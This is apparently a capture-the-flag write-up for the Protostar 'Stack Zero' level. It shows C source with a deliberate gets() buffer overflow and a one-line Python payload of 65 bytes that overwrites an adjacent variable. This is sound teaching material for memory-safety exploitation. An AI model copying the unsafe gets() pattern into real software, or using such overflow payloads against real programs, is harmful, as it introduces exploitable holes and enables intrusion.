

# Stack Zero

## Description

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at /opt/protostar/bin/stack0

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

## Exploit script

```python
payload = b'a'*65
print(payload)
```

Level passed!

<p align="center">
    
<p>
